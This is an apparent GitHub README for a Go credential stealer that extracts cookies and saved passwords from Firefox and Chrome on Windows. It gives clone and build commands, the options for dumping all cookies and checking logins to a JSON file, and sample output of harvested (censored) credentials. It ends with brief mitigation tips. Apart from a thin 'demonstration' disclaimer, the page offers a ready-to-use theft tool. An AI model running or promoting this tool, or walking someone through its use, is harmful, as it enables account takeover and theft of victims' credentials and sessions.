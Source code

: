 # Golang Credential Stealer
Demonstration of gaining access into cookies & login credentials. Currently only supports firefox & chrome, planning to support edge but i have no interest in any other browser since the main purpose of this repo is just as demonstration.

Special thanks to [@lclevy](https://github.com/lclevy) for their implementation of credential decrypting, all algorithms I use for decrypting firefox login credentials are just replica of [Firepwd](https://github.com/lclevy/firepwd). I just rewrite it completely in go.

Please note that any illegal action related to this program is highly discouraged, it is user's resposibility for anything done with this distribution and has nothing to do with me.

> Currently only windows is supported, and older version of firefox / chrome might be incompatible (this is intentional since most people don't use older browser anyway).
## Building
Install go compiler, > 1.18 if possible, but any version above 1.0 seems fine.
```bash
> go version
go version go1.18 windows/amd64
```

Clone this repository.
```bash
git clone https://github.com/idfp/go-stealer
```
Install required dependencies, then build it or just run as it is.
```
go build .
```

## Usage
```bash
go-stealer.exe [Options]
or
go run . [Options]
```
There's no need to pass profile directory, the program will find it by its own.

### Options
```bash
--browser               Targeted browser, by default the value is "firefox".
-b                      Shorthand for --browser.

--check-credentials     Check login credentials, by default this is turned off.
-c                      Shorthand for --check-credentials.

--dump-all              Dump all cookies instead of just a specific host, --output is required for this.
-a                      Shorthand for --dump-all

--output                JSON File to save all logged credentials.
-o                      You guessed it.

--web                   Specific host to look for when doing cookies logging.
-w                      Yes
```

### Example Usage
This is how the result will looks like, of course the private data is censored.
```bash
> go-stealer.exe -a -c -o result.json
Opening SQL File
accounts.google.com @ SMSV : [REDACTED]
.developers.google.com @ _ga : [REDACTED]
accounts.google.com @ ACCOUNT_CHOOSER : [REDACTED]
.google.com @ ANID : [REDACTED]
.fonts.google.com @ _ga : [REDACTED]

...

Site: https://id.heroku.com 
Username: ri******@gmail.com
Password: ******

Site: https://discord.com 
Username: ri******@gmail.com
Password: ******

Saving all result to result.json
```

### Mitigation
To prevent yourself from being a victim of this attack, here's some tips for you: 
1. Prevent initial access to your device, this includes but not limited to: executing random exe file, opening suspicious office documents, or visiting random websites.
2. Activate 2FA whenever it's possible.
3. Use firefox master password, this will prevent credential stealing in firefox. Tt is bruteforcable so make the password carefully, well they still will be able to steal your cookies and chrome credentials anyway.
![master password](https://images2.imgbox.com/c0/35/12lGohWg_o.png)
4. Do not save any login credential on your browser, just either remember it or use local password manager.